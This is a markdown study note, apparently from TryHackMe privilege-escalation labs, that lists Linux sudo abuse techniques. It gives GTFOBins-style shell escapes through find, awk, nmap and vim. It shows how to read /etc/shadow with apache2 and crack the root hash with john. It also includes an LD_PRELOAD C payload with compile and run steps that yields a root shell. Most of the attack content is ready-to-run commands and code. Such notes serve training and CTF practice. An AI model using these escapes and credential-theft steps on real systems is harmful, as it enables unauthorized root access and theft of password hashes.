 #Linux #PrivEsc #sudo #GTFOBins #Find #AWK #nmap #vim #LD_PRELOAD  #gcc #C #john #Apache #hashcat #/etc/shadow #wget 


# **Sudo Shell Escaping**
#sudo #GTFOBins #Find #AWK #nmap #vim

[GTFOBins](https://gtfobins.github.io/)

[Linux PrivEsc Playground](https://tryhackme.com/room/privescplayground)

- Example if we can run `find` as `sudo`: `sudo find . -exec /bin/sh \; -quit`
- This gets us a root shell

## **Detection**﻿
Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via `sudo`.

## **Exploitation**
Linux VM

1. In command prompt type any of the following:
	a. `sudo find /bin -name nano -exec /bin/sh \;`
	b. `sudo awk 'BEGIN {system("/bin/sh")}'`
	c. `echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse`
	d. `sudo vim -c '!sh'`

---

# **Intended Functionality**
#sudo #john #Apache #hashcat #/etc/shadow #wget 

More [examples](https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/)

## **Detection**
Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via `sudo`.

## **Exploitation**
Linux VM

1. In command prompt type: `sudo apache2 -f /etc/shadow`
2. From the output, copy the root hash.

Attacker VM  

1. Open command prompt and type: `echo '[Pasted Root Hash]' > hash.txt`
2. In command prompt type: `john --wordlist=/usr/share/wordlists/nmap.lst hash.txt`
3. From the output, notice the cracked credentials.

---

# **LD_PRELOAD**
#LD_PRELOAD #sudo #gcc #C
## **Detection**
Linux VM

1. In command prompt type: `sudo -l`
2. From the output, notice that the `LD_PRELOAD` environment variable is intact.

## **Exploitation**

1. Open a text editor and type:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>


void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");

}
```

2. Save the file as `x.c`
3. In command prompt type: `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
	- *Note: must use tabs not spaces in C code*
4. In command prompt type: `sudo LD_PRELOAD=/tmp/x.so apache2`
5. In command prompt type: `id`

---

# Simple CTF - THM

[dirsearch](https://github.com/maurosoria/dirsearch)

[Exploit-DB for Simple CMS](https://www.exploit-db.com/exploits/46635)

